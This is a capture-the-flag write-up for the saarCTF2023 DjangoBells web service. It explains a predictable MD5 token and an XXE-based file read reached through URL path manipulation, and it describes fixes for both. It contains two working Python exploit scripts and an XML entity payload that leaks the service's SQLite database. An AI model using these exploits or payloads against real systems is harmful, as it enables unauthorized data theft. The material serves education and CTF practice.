 ```yaml
---
title: 'saarCTF2023 - DjangoBells'
date: 2023-11-22T16:31:22+01:00
author: 'R1D3R175 & SimozB'
description: 'Writeup for saarCTF2023 DjangoBells service' 
cover: '/img/ctf/saarCTF2023/image-20231120001027326.png'
draft: false
---
```

# DjangoBells Writeup
## Challenge description
DjangoBells is a **web service** written in **Django**. Upon visiting `<IP>:8000`, two functionalities become apparent. 
The first, found on the index page, allows users to **add** a "wish" in the corresponding input box. 

{{< image src="/img/ctf/saarCTF2023/image-20231120001027326.png" position="center" alt="Hello Friend" position="center" >}}

The second is the `/list` endpoint, which displays **censored** "wishes" along with their IDs and timestamps.

{{< image src="/img/ctf/saarCTF2023/image-20231120001056857.png" position="center" alt="image-20231120001056857" >}}

## First vulnerability

Upon attempting to create a wish, we observed the URL becoming `/read/<something1>/<something2>`. A code analysis reveals that the first segment, called `id` is a **UUIDv4** for the created wish, while the second segment, called `token` should be a **randomly** **encrypted** **nonce** in MD5. 

{{< image src="/img/ctf/saarCTF2023/image-20231120001323632.png" position="center" alt="image-20231120001323632" >}}

However, an **error** exists in the code. The **Token** object, **intended** to be initialized with `(nonce, timestamp)`, is mistakenly initialized with **`(timestamp, nonce)`**. Essentially, the second part of the URL is the **MD5 of the timestamp**, which is **uncensored** in the `/list` endpoint. 

{{< image src="/img/ctf/saarCTF2023/image-20231120001543925.png" position="center" alt="image-20231120001543925" >}}

We created this simple exploit:

```python
#!/usr/bin/env python3
import requests
import sys
from bs4 import BeautifulSoup
import hashlib
import time

IP = sys.argv[1]

def get_timestamp(div):
    no_useless_tag = str(div).replace("<strong>", "").replace(
        "</strong>", "").replace("<br>}}", "")
    timestamp = no_useless_tag.split("Timestamp:")[1].strip().split("\n")[0]
    return int(timestamp)

def get_flag():
    req = requests.get(f"http://{IP}:8000/list/").text
    soup = BeautifulSoup(req, 'html.parser')
    divs = soup.find_all('div', class_='wish-item')

    for div in divs:
        timestamp = get_timestamp(div)
        curr_timestamp = int(time.time())
        if curr_timestamp - timestamp > 120:  # avoid too old posts
            continue

        passtoken = hashlib.md5(str(timestamp).encode("utf-8")).hexdigest()
        
        resp = requests.get(f"http://{IP}:8000/read/{id}/{passtoken}")
        #: get div with id "wish" (where the flag is)
        soup = BeautifulSoup(resp.text, 'html.parser')
        div_flag = soup.find('div', id='wish')
        if "SAAR" in div_flag.text:
            print(div_flag.text, flush=True)

get_flag()
```

The fix for this issue involves simply correcting the parameter order:

{{< image src="/img/ctf/saarCTF2023/image-20231120002315691.png" position="center" alt="image-20231120002315691" >}}

## Second Vulnerability

Remember the `/read` endpoint? There was something **weird** about how it was getting called...
First we go here...

{{< image src="/img/ctf/saarCTF2023/urlpatterns.png" position="center" alt="/img/ctf/saarCTF2023/urlpatterns.png" >}}

Then we go to a **`make_api_call_token`** function...

{{< image src="/img/ctf/saarCTF2023/get_post.png" position="center" alt="/img/ctf/saarCTF2023/get_post.png" >}}

{{< image src="/img/ctf/saarCTF2023/make_api_call.png" position="center" alt="/img/ctf/saarCTF2023/make_api_call.png" >}}

Now this just looks **weird**!

If we inspect the code further, we can also see that there is an **XML parser** at the **`/report`** endpoint however we **can't** call it with whatever params we want.

Let's analyze the `make_api_call_token` function, it gets passed the `post_id`, the `pass_token` and the `endpoint`... but why is the endpoint at the **end**?
Since we **can** control both the `post_id` and the `pass_token` parameters, we can call **whatever** `api` endpoint we want using this payload:
```apl
/read/<your_endpoint>/<your_param>
```
Which will then get translated to
```apl
/api/<your_endpoint>/<your_param>/read
```

How can we **abuse** this?

We entirely **bypass** the regex filter on the *original* `/report` endpoint which, for instance, was this:
{{< image src="/img/ctf/saarCTF2023/report_regex.png" position="center" alt="/img/ctf/saarCTF2023/report_regex.png" >}}
Now it's important to see **how** the **`api`** view gets called and **pinpoint** what we want to do.

{{< image src="/img/ctf/saarCTF2023/report_api_func.png" position="center" alt="/img/ctf/saarCTF2023/report_api_func.png ">}}

Our objective will now be to **leak** something (like the `db.sqlite3` file) inside the `id` field of the XML.

Since there's an **XML parser**, it made us think **instantaneously** about an **XXE** so... let's analyze the **`miniXML`** class!

{{< image src="/img/ctf/saarCTF2023/minixml_parse.png" position="center" alt="/img/ctf/saarCTF2023/minixml_parse.png ">}}

This is the *"main loop"* of the parser.
The first function, **`self.eat_XMLdecl`** doesn't do anything useful for us so we're just going to **skip** it.
Something more interesting happens in the **2nd function**, `read_doctype`.

{{< image src="/img/ctf/saarCTF2023/minixml_read_doctype.png" position="center" alt="/img/ctf/saarCTF2023/minixml_read_doctype.png ">}}

It calls a function named **`read_entity`** which sounds quite juicy, let's see what it does!

{{< image src="/img/ctf/saarCTF2023/minixml_read_entity.png" position="center" alt="/img/ctf/saarCTF2023/minixml_read_entity.png" >}}

We can see that it replaces `file://`, however we don't *really* need it ¯\\\_(ツ)_/¯. Apart from that, we can also see that it **assigns** the **content of the file** to a `xe` class variable.
Let's see **how** it is used and if we have some **constraints**...

{{< image src="/img/ctf/saarCTF2023/minixml_replace.png" position="center" alt="/img/ctf/saarCTF2023/minixml_replace.png ">}}

Also, that's how the class is initialized:

{{< image src="/img/ctf/saarCTF2023/minixml_init.png" position="center" alt="/img/ctf/saarCTF2023/minixml_init.png ">}}

We can deduce that we **cannot** add any extra keys to the `xe` attribute.
But who says we can't just **reuse** one? Suppose we have

```apl
[ <!ENTITY amp SYSTEM "db.sqlite3"> ] 
```
What would happen? It would get *translated* like this:
```apl
name = "amp"
path = "db.sqlite3"
self.xe["&amp;"] = <content_of_db.sqlite3>
```
We can **overwrite** another key without triggering that "security" check!

Now all that it's left to do is to **write** the exploit and **encode** it.
```xml
<!DOCTYPE root [
    <!ENTITY amp SYSTEM "db.sqlite3">
]>
<id>&amp;</id>
<reason>pwn3d by NASLAB</reason>
```
Just encode the payload in **base64** and then prepare the URL to **bypass** the regex on `report`, which is:

```apl
/read/report/?reason=<b64 payload>
```
This isn't enough tho... remember that it **appended** the endpoint (which in this case is `/read`)? In order to "remove" it we can just add an **`&`** and it will get counted as a **GET parameter**.

**Final payload structure**
```apl
/read/report?reason=<b64 payload>&
```

Since it **also** called `unquote` we have to **URL-encode** the payload **twice** (one for Django, one for the `unquote`)

**Exploit**

```python
#!/usr/bin/env python3
import sys
import requests
import re

IP = sys.argv[1]
FLAG_REGEX = re.compile(r"SAAR\{[A-Za-z0-9-_]{32}\}")

VULN = "read/report/%3Freport%3DPCFET0NUWVBFIHJvb3QgWzwhRU5USVRZIGFtcCBTWVNURU0gImRiLnNxbGl0ZTMiPl0%252BPGlkPiZhbXA7PC9pZD48cmVhc29uPmFzZDwvcmVhc29uPg%253D%253D%2526"

def get_flag():
    massive = requests.get(f"http://{IP}:8000/{VULN}")
    
    flags = FLAG_REGEX.findall(massive.text)
    for flag in flags:
        print(flag, flush=True)

get_flag()
```

**Fix**

An easy fix is just to disallow `report` as the `post_id`.

{{< image src="/img/ctf/saarCTF2023/fix_vuln2.jpg" position="center" alt="/img/ctf/saarCTF2023/fix_vuln2.jpg" >}}



_- NASLAB_